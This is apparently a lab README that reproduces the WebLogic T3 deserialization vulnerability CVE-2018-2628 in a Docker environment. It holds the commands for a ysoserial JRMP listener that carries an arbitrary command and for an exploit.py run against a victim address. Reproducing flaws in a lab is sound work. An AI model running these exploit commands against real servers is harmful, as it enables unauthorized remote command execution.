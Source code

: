 # Weblogic WLS Core Components Deserialization Command Execution Vulnerability (CVE-2018-2628)

Oracle's April 2018 patch fixes a deserialization vulnerability (CVE-2018-2628) that appears in Weblogic Server WLS Core Components, which is triggered by the t3 protocol, which can cause unauthorized users to execute arbitrary commands on remote servers. .

Reference link:

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- https://github.com/brianwrf/CVE-2018-2628
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA

## vulnerability environment

Run the following command to start Weblogic 10.3.6.0:

```
Docker-compose up -d
```

Wait for the environment to start (environmental differences, some machines may wait longer), visit `http://your-ip:7001/console` to initialize the entire environment.

## Vulnerability recurrence

Refer to [brianwrf/CVE-2018-2628] (https://github.com/brianwrf/CVE-2018-2628), first download ysoserial, and start a JRMP Server:

```
Java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

Among them, `[command]` is the command I want to execute, and `[listen port]` is the port that JRMP Server listens to.

Then, use the [exploit.py](https://www.exploit-db.com/exploits/44553/) script to send the packet to the target Weblogic (`http://your-ip:7001`):

```
Python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

Among them, `[victim ip]` and `[victim port]` are the IP and port of the target weblogic, `[path to ysoserial]` is the path of the local ysoserial, `[JRMPListener ip]` and `[JRMPListener port]` Start the IP address and port of the JRMP Server in one step. `[JRMPClient]` is a class that executes JRMPClient. The optional value is `JRMPClient` or `JRMPClient2`.

After the exploit.py is executed, execute `docker-compose exec weblogic bash` into the container and you can see that /tmp/success has been successfully created.

![](1.png)
